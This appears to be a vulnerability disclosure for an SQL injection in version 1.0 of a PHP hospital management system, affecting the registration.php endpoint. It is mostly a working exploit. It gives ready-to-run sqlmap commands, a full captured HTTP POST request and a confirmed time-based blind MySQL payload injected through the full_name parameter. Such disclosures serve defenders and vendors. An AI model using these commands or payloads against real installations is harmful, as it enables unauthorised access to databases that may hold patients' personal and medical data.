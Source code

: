 # Hospital Management System 1.0 - sqli in /hms/registration.php

- Vendor Homepage: https://www.campcodes.com
- Software Link: https://www.campcodes.com/projects/online-hospital-management-system-using-php-and-mysql/
- Version: 1.0

### POC

```
sqlmap -u "http://localhost/hospital/hms/registration.php" --data="full_name=test&address=test&city=test&gender=male&email=test@example.com&password=test123&password_again=test123&submit=Submit" --level=2 --thread=10 --batch --flush-session
```



OR

#### request.txt

```http
POST /hospital/hms/registration.php HTTP/1.1
Host: 192.168.177.1
Origin: http://192.168.177.1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=b4ao6mmdbco1bcmr84grm25ihd
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.177.1/hospital/hms/registration.php
Content-Length: 119

full_name=test&address=test&city=test&gender=female&email=test%40test.com&password=123456&password_again=123456&submit=
```

```
sqlmap -r request.txt -p full_name --technique T --batch --level 5
```

![image-20250530164908643](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505301649739.png)

```
---
Parameter: full_name (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: full_name=test'+(SELECT 0x6f626a70 WHERE 9939=9939 AND (SELECT 4907 FROM (SELECT(SLEEP(5)))VjxU))+'&address=test&city=test&gender=female&email=test@test.com&password=123456&password_again=123456&submit=
---
```
